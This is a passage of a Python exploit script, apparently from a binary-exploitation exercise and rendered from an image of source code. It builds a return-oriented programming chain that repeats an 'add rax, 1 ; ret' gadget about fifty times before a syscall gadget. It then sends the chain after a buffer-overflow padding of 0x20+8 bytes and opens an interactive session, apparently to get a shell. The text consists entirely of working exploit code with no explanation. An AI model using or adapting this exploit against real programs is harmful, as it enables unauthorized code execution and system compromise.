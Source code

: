 ```python
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000401ce4) # syscall
payload=b'a'*(0x20+8)+p
io.sendline(payload)
io.interactive()
```

